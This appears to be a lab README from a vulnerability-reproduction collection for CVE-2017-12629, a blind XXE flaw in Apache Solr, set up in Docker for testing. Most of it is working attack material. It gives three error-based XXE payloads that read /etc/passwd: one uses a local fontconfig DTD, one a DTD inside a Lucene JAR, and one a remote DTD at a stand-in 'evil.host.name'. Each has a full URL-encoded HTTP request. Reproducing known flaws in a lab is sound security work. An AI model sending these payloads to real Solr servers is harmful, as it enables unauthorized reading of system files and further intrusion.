



# Apache Solr XML External Entity Injection (CVE-2017-12629)

See the following references for vulnerability details:

 - https://www.exploit-db.com/exploits/43009/
 - https://paper.seebug.org/425/

Apache Solr is an open-source search server implemented in Java on HTTP and Apache Lucene. Before version 7.1.0, it exposed XML External Entity (XXE) and remote code execution (RCE) vulnerabilities that can be chained under CVE-2017-12629.

This example tests XXE only. The RCE example and the combined chain are available at https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE.

## Environment

Start the environment:

```
docker compose up -d
```

After the service starts, wait briefly and visit `http://your-ip:8983/` to open the Apache Solr administration page without logging in.

## Reproduction

Because the response does not contain the XML supplied in the request, this is a blind XXE vulnerability. Files can still be read with [Error Based XXE](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/).

Error-based XXE requires a suitable DTD file. The following sections show several options.

### Use fontconfig-config/fonts.dtd

The OpenJDK Docker image installs fontconfig-config, which contains a suitable DTD at `/usr/share/xml/fontconfig/fonts.dtd`.

Construct the XXE payload as follows:

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

URL-encode it and send:

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22file%3A%2F%2F%2Fusr%2Fshare%2Fxml%2Ffontconfig%2Ffonts%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20expr%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

The response contains `/etc/passwd`:



### Use a DTD from a JAR file

Because the target is a black box, installed software cannot be predicted. A DTD bundled inside a dependency is often more reliable; for example, the Solr `lucene-queryparser.jar` contains `LuceneCoreQuery.dtd`.

Construct the XXE payload as follows:

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "jar:file:///opt/solr/server/solr-webapp/webapp/WEB-INF/lib/lucene-queryparser-7.0.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

URL-encode it and send:

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22jar%3Afile%3A%2F%2F%2Fopt%2Fsolr%2Fserver%2Fsolr%2Dwebapp%2Fwebapp%2FWEB%2DINF%2Flib%2Flucene%2Dqueryparser%2D7%2E0%2E1%2Ejar%21%2Forg%2Fapache%2Flucene%2Fqueryparser%2Fxml%2FLuceneCoreQuery%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20queries%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

The response contains `/etc/passwd`:



### Use a remote DTD

If no suitable local DTD can be found and the server can reach the Internet, a remote DTD can be used.

Deploy a DTD on an HTTP server:

```xml
<!ENTITY % test "example">
<!ELEMENT pattern (%test;)>
```

Construct the XXE payload as follows:

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "http://evil.host.name/include.dtd">

    <!ENTITY % test 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

URL-encode it and send:

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22https%3A%2F%2Fgist%2Egithubusercontent%2Ecom%2Fphith0n%2F188f03ac0f3c5d899895268f05fd0a51%2Fraw%2F7b481b122622d77c49c619fa047a52051f9652d8%2Finclude%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20test%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

The response contains `/etc/passwd`:


